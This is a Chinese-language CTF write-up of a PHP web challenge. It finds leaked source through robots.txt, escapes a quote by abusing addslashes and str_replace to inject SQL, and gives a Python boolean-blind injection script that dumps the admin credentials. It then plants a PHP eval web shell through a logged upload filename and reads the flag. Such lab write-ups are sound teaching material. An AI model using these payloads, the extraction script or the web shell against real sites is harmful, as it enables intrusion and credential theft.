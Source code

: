 ![[Pasted image 20230109083406.png|500]]

---
首页长这样

![[Pasted image 20230109083519.png|500]]

---
发现`robots.txt`

```php
/robots.txt
```

```
User-agent: *
Disallow: *.php.bak
```

访问`/index.php.bak`报`404`

`/image.php.bak`可以正常下载

```php
<?php
include "config.php";

$id=isset($_GET["id"])?$_GET["id"]:"1";
$path=isset($_GET["path"])?$_GET["path"]:"";

$id=addslashes($id);
$path=addslashes($path);

$id=str_replace(array("\\0","%00","\\'","'"),"",$id);
$path=str_replace(array("\\0","%00","\\'","'"),"",$path);

$result=mysqli_query($con,"select * from images where id='{$id}' or path='{$path}'");
$row=mysqli_fetch_array($result,MYSQLI_ASSOC);

$path="./" . $row["path"];
header("Content-Type: image/jpeg");
readfile($path);
```

`/config.php.bak`也不存在，大致是要在`image.php`的输入转义和替换这里寻找机会。

`addslashes`的作用
```
'   ==>  \'
"   ==>  \"
\   ==>  \\
NUL ==>  \x00
```

`str_replace`的作用
```
\0  ==>
%00 ==>
\'  ==>
'   ==>
```

由于`str_replace`替换`'`，所以添加`'`走不通

```
   (add_slashes)      (str_replace)
\0 =============> \\0 =============> \
```

由于`0`不被`add_slashes`处理，`\0`被`str_replace`处理，能够制造出单个`\`

如此便能对原有查询字符串中的`'`进行转义。巧的是`image.php`的查询有两个条件`id='{$id}'`和`path='{$path}'`，可以通过上面的方式将`id`的后单引号转义，于是`path`的前单引号成为`id`的后单引号，造成`path`参数的逃逸

构造`payload`

```php
/image.php?id=\0&path=or 1=1#
```

![[Pasted image 20230109095330.png|700]]

尝试布尔盲注

```python
import requests
import time
import sys

url = "http://52cd463b-3156-4fa6-b15a-946af9989692.node4.buuoj.cn:81/image.php"

fmt = 'or 0^(ord(substr((select(database())),%d,1))>%d)#'
# false_re = 'exists'

for i in range(0, 100):
    l = 0
    r = 127
    while l < r:
        mid = (l + r) // 2
        payload = fmt % (i, mid)
        params = {'id': '\\0', 'path': payload}
        response = requests.get(url, params)
        time.sleep(0.1)
        # if response.text.find(false_re) >= 0: # mid >= ans
        if len(response.text) < 100:
            r = mid
        else: # mid < ans
            l = mid + 1
    print(chr(l), end='')
    sys.stdout.flush()
```

```
ciscnfinal
```

```python
fmt = 'or 0^(ord(substr((select(group_concat(schema_name))from(information_schema.schemata)),%d,1))>%d)#'
```

```
information_schema,ciscnfinal,exampleDB,mysql,performance_schema
```

```python
# 不能使用单引号
fmt = 'or 0^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)=database()),%d,1))>%d)#'
```

```
images,users
```

```python
# 用16进制绕过
fmt = 'or 0^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name)=0x7573657273),%d,1))>%d)#'
```

```
username,password
```

```python
fmt = 'or 0^(ord(substr((select(group_concat(username))from(ciscnfinal.users)),%d,1))>%d)#'
```

```
admin
```

```python
fmt = 'or 0^(ord(substr((select(group_concat(password))from(ciscnfinal.users)),%d,1))>%d)#'
```

```
0925553b4e6bcb295be9
```

使用账号密码成功登录

![[Pasted image 20230109114933.png]]

尝试上传木马

```php
<?php eval($_GET['cmd']); ?>
```

```
You cant upload php file.
```

不行QAQ

随便传个文件试试

```
I logged the file name you uploaded to logs/upload.71a36304eac669b32d5fbcdb5625c3f7.log.php. LOL
```

将文件名写入`log`，尝试对文件名下手

```php
# 不能有空格
<?=eval($_GET['cmd']);?>
```

```
I logged the file name you uploaded to logs/upload.71a36304eac669b32d5fbcdb5625c3f7.log.php. LOL
```

```php
/logs/upload.71a36304eac669b32d5fbcdb5625c3f7.log.php?cmd=system('cat /flag');
```

```
User admin uploaded file flag{28a33985-0d91-4a24-a911-ccb78bfbe982}
```

#Web #PHP #源码泄漏 #robots #SQL注入 #布尔盲注 #bypass #字符串逃逸 #addslashes #str_replace